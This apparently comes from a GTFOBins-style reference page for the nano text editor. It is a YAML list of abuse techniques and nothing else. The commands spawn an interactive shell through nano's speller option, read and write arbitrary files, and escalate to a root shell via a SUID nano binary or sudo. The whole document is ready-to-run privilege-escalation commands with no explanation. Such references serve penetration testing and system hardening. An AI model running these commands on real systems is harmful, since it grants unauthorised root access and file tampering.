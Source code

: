 ```yaml
---
functions:
  execute-interactive:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid-enabled:
    - code: |
        TF=$(mktemp)
        echo 'exec sh -p' > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - code: |
        TF=$(mktemp)
        echo 'exec sh' > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

